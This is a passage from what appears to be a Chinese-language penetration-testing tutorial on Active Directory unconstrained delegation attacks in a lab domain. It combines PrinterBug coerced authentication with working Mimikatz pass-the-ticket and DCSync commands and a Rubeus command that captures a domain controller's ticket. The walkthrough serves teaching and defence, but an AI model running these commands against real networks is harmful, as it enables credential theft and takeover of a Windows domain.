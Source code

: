 ![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331214823931.png)

（3）如上图所示，可以看到域管理员账户的高权限TGT票证 `[0;13a0f0]-2-0-60a10000-Administrator@krbtgt-PENTEST.COM.kirbi`，执行以下命令，通过 Mimikatz 传递该票证。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "kerberos::ptt [0;13a0f0]-2-0-60a10000-Administrator@krbtgt-PENTEST.COM.kirbi" exit
```

![](/assets/posts/2022-03-12-domain-delegation-attack/kiJduKsGxT3OVFE.png)
（4)再次尝试访问 DC01 的 C$ 共享，如下图所示，访问成功。

![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331184355745.png)

### Coerce Authentication

前文中介绍了非约束性委派攻击的一般利用方法，但是该方法必须由域管理员远程连接后留下高权限的 TGT 才能利用，因此显得有些鸡肋。不过我们配合 PrinterBug 等工具执行强制身份认证（Coerce Authentication），非约束性委派攻击助力。

Windows 中的 MS-RPRN（Print System Remote Protocol，打印系统远程协议）用于打印客户端和打印服务器之间的通信，支持客户端和服务器之间的同步打印和联机操作，包括打印任务控制以及打印系统管理。

MS-RPRN协议中定义的 RpcRemoteFindFirstPrinterChangeNotification API 可以创建远程修改通知对象，用于监控对打印机对象的修改，并向打印客户端发送修改通知。任何具备域用户权限的攻击者都可以滥用该方法来强迫运行打印服务（Print Spooler）的主机向攻击者选择的目标主机发起 Kerberos 或 NTLM 认证请求。

结合 PrinterBug，攻击者可以强制域控制器向配置了非约束性委派的主机发起 Kerberos 身份认证，并获取域控的高权限 TGT，该利用场景是 [@tifkin_](https://twitter.com/tifkin_)、[@enigma0x3](http://twitter.com/enigma0x3) 和 [@harmj0y](https://twitter.com/harmj0y) 在 2018 年的 DerbyCon 大会上提出的，并开发了一个概念性的工具 [SpoolSample](https://github.com/leechristensen/SpoolSample)。详情可以参考以下链接中的文章和视频：

- https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1
- https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory

![](/assets/posts/2022-03-12-domain-delegation-attack/0_vqiYvTtZylwXe5zH.png)
下面我将对 PrinterBug 和非约束性委派结合的利用方法进行演示，相关利用工具如下。

（1）首先，通过 Marcus 用户登录域成员主机 WIN10-CLIENT1，尝试通过 DCSync 导出域内用户哈希，结果失败。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```

![](/assets/posts/2022-03-12-domain-delegation-attack/ovGxJcZshtCTHVn.png)

（2）在 WIN10-CLIENT1 主机上通过本地管理员启动 [Rubeus](https://github.com/GhostPack/Rubeus) 监听，相关命令如下。

```console
C:\Users\Marcus\Desktop> Rubeus.exe monitor /interval:5 /filteruser:DC01$

# /interval:5 设置监听间隔5秒
# /filteruser 设置监听对象为我们的域控，注意后面有个$，如果不设置监听对象就监听所有的 TGT
```
